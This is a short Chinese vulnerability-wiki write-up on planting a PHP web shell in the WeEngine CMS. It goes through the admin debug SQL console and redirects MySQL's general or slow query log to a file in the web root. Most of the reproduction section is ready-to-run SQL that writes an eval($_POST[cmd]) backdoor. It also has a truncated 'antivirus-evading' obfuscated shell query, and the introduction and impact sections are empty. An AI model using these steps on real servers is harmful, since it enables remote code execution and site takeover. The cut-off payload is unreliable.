 微擎 绕过禁用函数写shell
========================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

### 1.站点设置里面打开调试

![](/Users/aresx/Documents/VulWiki/.resource/微擎后台绕过禁用函数写shell/media/rId25.png)

### 2.执行语句

select into被禁止

![](/Users/aresx/Documents/VulWiki/.resource/微擎后台绕过禁用函数写shell/media/rId27.png)

### 3.利用日志文件写shell

    show variables like '%general%';  #查看配置

    set global general_log = on;  #开启general log模式

    set global general_log_file = '/var/www/html/1.php';   #设置日志目录为shell地址

    select '<?php eval($_POST[cmd]);?>'  #写入shell

![](/Users/aresx/Documents/VulWiki/.resource/微擎后台绕过禁用函数写shell/media/rId29.png)

### 4.SQL查询免杀shell的语句

    SELECT "<?php $p = array('f'=>'a','pffff'=>'s','e'=>'fffff','lfaaaa'=>'r','nnnnn'=>'t');$

### 补充:来自土司\@GuoKerSb的分享

在无法修改general\_log\_file指向的地址且网站用户量多时刻处于查询的状态，我们还可以通过启动slow\_query\_log（慢查询日志，默认关闭）来写shell

    set global slow_query_log=1;
    set global slow_query_log_file='/var/www/html/1.php';
    select '<?php eval($_POST[cmd]);?>' or sleep(11);

四、参考链接
------------

> <https://www.vulnbug.com/Exploit/Microcomputer-CMS-bypasses-disabled-Intooutfile-and-safe-dog.html>
